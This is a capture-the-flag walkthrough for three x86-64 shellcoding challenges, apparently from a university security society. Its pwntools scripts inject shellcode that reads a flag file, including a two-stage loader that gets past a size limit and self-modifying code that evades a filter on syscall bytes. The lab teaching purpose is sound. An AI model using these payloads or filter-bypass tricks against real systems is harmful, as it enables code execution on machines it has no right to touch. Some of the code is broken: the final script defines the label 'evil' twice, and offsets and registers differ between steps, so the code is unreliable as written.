

# Walkthrough: Shellcoding Challenges


As promised by Ben in [Assembly & Shellcoding](https://cov-comsec.github.io/posts/2021_assembly_and_shellcoding/), this article will cover the solutions for the Shellcode challenges. The challenges can be found on CTFd and is strongly recommended to try to solve the challenges on your own before continue reading this article!

## Preparation for the challenges

Each of the following challenges will require you to send your already assembled code to the target; whose ip address and port is specified in the description of each challenge on CTFd.
The file 'boilerplate.py' was kindly provided and its purpose is to help assemble your code, connect to the host and inject the payload; all you have to do it insert your assembly code where required and type the ip address and port number of the target inside the brackets of the p.remote() method.
    
*i.e.*

```python
p.remote("0.cloud.chals.io", 0000)
```

## Solution: Shellcode Challenge 1

By navigating to the target a webpage presents itself which contains some information, the only one we need right now is: *There are no protections on this level. Just read the flag at '/flag'*. We now know that the flag is placed in a file called "flag" in the root directory of the target.

```asm
.global _start
.intel_syntax noprefix

_start:
lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall
```

The purpose of this first code is to use sys.open() to grab the file descriptor of our flag. A file descriptor is an unique identifier of a file and is usually a non negative integer. The first three file descriptors are reserved in this order:
    
- File descriptor 0: stdin
- File descriptor 1: stdout
- File descriptor 2: stderr

The previous code loads the path of the flag, specified in a label at the end of the file, in rdi; the two xor instruction set the values of rsi and rdx to 0.
Then the value 2 is moved in rax and syscall is executed. The first operation is made in order to set the argument for sys.open() since it needs the path of the file which the FD is going to get stored.

Generally, all the values moved in registers before a syscall have the purpose to initialize the arguments for the syscall itself, apart from rax which must contain the value which specify which syscall to execute and will usually store the return value of the syscall. To give a better understanding of the syscall keyword, we can represent it like this:

syscall(rax, rdi, rsi, rdx, ...) where the arguments are values stored in the registers and have a strict order that can be found [here](http://syscall.sh/).

```asm
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall
```

Now we use sys.sendfile() to print our flag in the terminal. We use sendfile because it allows two file descriptors as arguments, one in input and the other in output; a better representation of sys.sendfile is sys.sendfile(output_fd, input_fd, offset, size) where the offset indicates where to start sending information and the size is the number of bytes that will be sent.

As we can see we are sending to stdout (file descriptor 1) the contents of the flag file that we opened before (remember that, in this case, the rax contains the file descriptor for the flag file) starting from byte 0 (start of file) and will be sent 60 bytes (rough estimate, if needed this value can be increased).

```asm
flag:
  .string "flag"
```

This last part is the label that we called in the first instruction. This label contains the string "flag" which represents the path to our flag file. With this part clarified we can actually understand that, in order to store this string in rdi, we must load the memory address of this label which contains the string (hence why we used lea, which stands for load effective address, instead of mov).

We then type our newly finished shellcode into boilerplate.py and press enter we notice that we recieve different text compared with the first attempt (attempted with an empty payload). The target answers our code with a report of the assembly code that will be executed.




```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall


flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Solution: Shellcode Challenge 2

First thing we do is, like the previous challenge, edit the boilerplate file with the new port and navigate to the target and observing the webpage, we can see that the flag is in the same location but that "This challenge reads in much fewer bytes." and this statement is reinforced by another line that states the following: "Reading 0x18 bytes from stdin.".

This means that only 24 bytes (0x18 = 24) worth of instructions will be read from standard input, this means that our previous shellcode won't work anymore since the target will only allow execute the first 24 bytes worth of information. In order to overcome this issue we create a `multi stage shellcode`, this type of shellcode consists in sending multiple shellcodes during the same connection; in this case we will use a two staged attack.

```asm
.intel_syntax noprefix
.global _start

_start:

push 0
push 0
pop rdi
lea rsi, [rip+9]
mov rdx, 250
pop rax

syscall
```

This code will allow us to use sys.read() in order to receive instruction from stdin, effectively bypassing the 24 bytes restriction imposed by the challenge.
sys.read() requires three arguments: a file descriptor, a buffer and a size value.
Being 0 the file descriptor for stdin and the value needed to invoke the syscall, we push two zeros on the stack.

We load the memory address which will point to the end of our shellcode in rsi and specify 250 expected bytes. We then invoke the kernel to execute sys.read().

```asm
.global _start
.intel_syntax noprefix

_start:

open:
lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

sendfile:
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall

exit:
mov rax, 60
mov rsi, 42
syscall

flag:
  .string "flag"
```

The second shellcode is the same shellcode used in challenge 1.

```python
shellcode1 = asm(f""" # stage 1 shellcode goes here """)
shellcode2 = asm(f""" # stage 2 shellcode goes here """)

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x18 bytes from stdin.\n"))
p.sendline(shellcode1)
pause(1)
p.send(shellcode2)

print_clean(p.readrepeat())
```

In order to successfully execute a multi-stage shellcode we also need to modify the boilerplate.py file since the two scripts must be in different payloads.
As shown above, we create another variable in which we type our stage 1 shellcode and we send it through before the actual payload containing the stage 2 shellcode; between the two payloads we want to wait 1 second for the stage 1 shellcode to execute so we add "pause(1)".

```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
setup = asm(f"""

.intel_syntax noprefix
.global _start

_start:
main:
push 0
push 0
pop rdi
lea rsi, [rip+10]
mov rdx, 250
pop rax
syscall

""")

shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

open:
lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

sendfile:
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall

exit:
mov rax, 60
mov rsi, 42
syscall

flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x18 bytes from stdin.\n"))
p.sendline(setup)
pause(1)
p.send(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Solution: Shellcode Challenge 3 

Same procedure used with the first two challenges, we edit the port value in 'boilerplate.py' and navigate to the target webpage. This time we notice that the stdin bytes are back to 0x1000 but there is new text that states that now syscalls in all their forms are filtered out before, and only before, runtime. The filter only looks for the specific bytes of syscall (0x0f05), sysenter(0x0f34) and int (0x80).
There are also other lines which contiain helpful hints to solve this challenge.
The answer of this challenge lies in how syscalls are actually executed. I we look at the output of the previous challenge:


We notice that "syscall" is nothing more than two bytes (0x0f and 0x05) loaded one after the other.
This is confirmed by the fact that if we substitute "syscall" with ".byte 0x0f, 0x05" in the previous challenge, we will obtain the same results.

```asm
inc byte ptr [rip+evil+1]
inc byte ptr [rip+evil]

evil:
.byte 0x0e
.byte 0x04
```
The previous code is an effective substitute of syscall: it creates a label called "evil" which contains two bytes, 0x0e and 0x04.
Before this label is actually run we increase by 1 the values of 0x0e and 0x04 which will now be 0x0f and 0x05. By doing this we have bypassed the filtered imposed by the challenge by creating a `self-modifying shellcode`.

```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2

inc byte ptr [rip+evil+1]
inc byte ptr [rip+evil]

evil:
.byte 0x0e
.byte 0x04


mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40

inc byte ptr [rip+evil+1]
inc byte ptr [rip+evil]

evil:
.byte 0x0e
.byte 0x04


flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Conclusion

We hope this explanation on how to solve the three challenges was helpful (and not too verbose!). If something is still obscure to you, you can ask a question on the discord server or comment below and we will try to answer in a timely manner.

